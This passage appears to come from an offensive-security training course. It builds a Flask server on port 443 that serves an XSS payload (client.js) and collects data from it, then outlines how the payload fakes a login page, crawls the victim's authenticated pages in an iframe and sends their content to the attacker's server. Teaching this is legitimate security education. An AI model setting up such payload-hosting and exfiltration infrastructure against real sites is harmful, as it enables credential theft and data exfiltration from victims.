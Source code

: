 With the certificate and key generated, we will load them into the API application and specify the host and port to run on.

app.run(host='0.0.0.0', port=443, ssl_context=('cert.pem', 'key.pem'))
Listing 28 - Starting the Flask app

We'll enter the code in Listing 28 below the configuration of the app and database variables. This line will always be the last line of this script.

Now that the Flask server is set to run, we need to create some endpoints. The first endpoint will respond with the contents of client.js (the XSS payload) to allow the XSS to load our payload.

We'll use a Python decorator3 to set the route. Specifically, we'll set the name of the route and the method that will be allowed (GET). We will send the client.js file with Flask's send_file function.

The code for this is shown in Listing 29 and will be entered after the configuration of the app and database variables but before app.run is called:

@app.route('/client.js', methods=['GET'])
def clientjs():
    print("[+] Sending Payload")
    return send_file('./client.js', attachment_filename='client.js')
Listing 29 - Responding with client.js

Running the API with sudo python3 api.py should start the listener on port 443.

kali@kali:~/scripts$ sudo python3 api.py
 * Serving Flask app "api" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on https://0.0.0.0:443/ (Press CTRL+C to quit)
[+] Sending Payload
Listing 30 - Starting the API Server

Opening a browser to https://<Your Kali IP>/client.js and accepting the self-signed certificate should display the client.js file that we've created earlier. This URL will become the source of the payload for the XSS.

1
(Cory Dolphin, 2013), https://flask-cors.readthedocs.io/en/latest/ ↩︎

2
(Mozilla, 2020), <https://developer.mozilla.org/en-US/docs/Web/<http/CORS> ↩︎

3
(Hackers And Slackers, 2020), https://hackersandslackers.com/flask-routes/#defining-routes ↩︎

##### Scraping Content
Now that we have a web server to send our data to and a database to store the data, we need to finish the client.js script that targets the authenticated victim and will scrape the data they have access to. In addition to replacing the DOM with the fake login page that was created earlier, there will be four additional steps. Our script will:

Load the home page.
Search for all unique links and save their hrefs.
Fetch the content of each link.
Send the content obtained from each link to our API server.
At this point, we do not know the URL of the homepage for an authenticated user. However, since visiting the root of the application as an unauthenticated user redirects to a login page, we can assume the root of the application will redirect to an authenticated page if a session exists. While we will use XHR requests to fetch the content of each link we find, we don't want to use an XHR request on the home page since we don't know if the JavaScript sources running on the home page add additional links to the DOM after the page is loaded. Instead, we will use an iframe since it will load the page, follow any redirects, and render any JavaScript. Once the page is fully loaded, we can grab all the links that the authenticated user has access to.
